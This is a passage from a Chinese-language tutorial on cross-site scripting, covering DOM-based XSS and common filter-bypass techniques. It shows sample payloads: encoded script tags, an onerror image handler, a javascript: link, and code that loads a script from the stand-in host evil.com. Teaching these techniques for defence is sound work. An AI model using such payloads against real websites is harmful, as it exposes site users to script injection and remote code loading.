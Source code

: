 DOM型XSS攻击中，恶意脚本通过修改页面的DOM结构来实现攻击，攻击代码不经过服务器，直接在客户端执行。

**攻击步骤：**
1. 攻击者构造一个包含恶意脚本的URL。
2. 用户点击该URL。
3. 浏览器解析URL并修改DOM结构。
4. 恶意脚本被执行。

**示例：**
```javascript
document.write('<script>alert("XSS")</script>');
```

## 4. XSS攻击的绕过技术

为了绕过目标网站的安全防护措施，攻击者会采用各种技术手段来绕过输入验证和输出编码。以下是一些常见的绕过技术：

### 4.1 编码绕过

攻击者通过使用不同的编码方式来绕过输入验证和输出编码。常见的编码方式包括HTML实体编码、URL编码、JavaScript编码等。

**示例：**
```html
<script>alert('XSS')</script>  // 原始代码
&#x3C;script&#x3E;alert(&#x27;XSS&#x27;)&#x3C;/script&#x3E;  // HTML实体编码
%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E  // URL编码
```

### 4.2 事件处理器绕过

攻击者通过使用事件处理器（如`onclick`、`onload`等）来触发恶意脚本的执行。

**示例：**
```html
<img src="x" onerror="alert('XSS')">
```

### 4.3 JavaScript伪协议绕过

攻击者通过使用JavaScript伪协议来执行恶意脚本。

**示例：**
```html
<a href="javascript:alert('XSS')">Click me</a>
```

### 4.4 动态脚本加载绕过

攻击者通过动态加载外部脚本来绕过输入验证。

**示例：**
```javascript
var s = document.createElement('script');
s.src = 'http://evil.com/malicious.js';
document.body.appendChild(s);
```
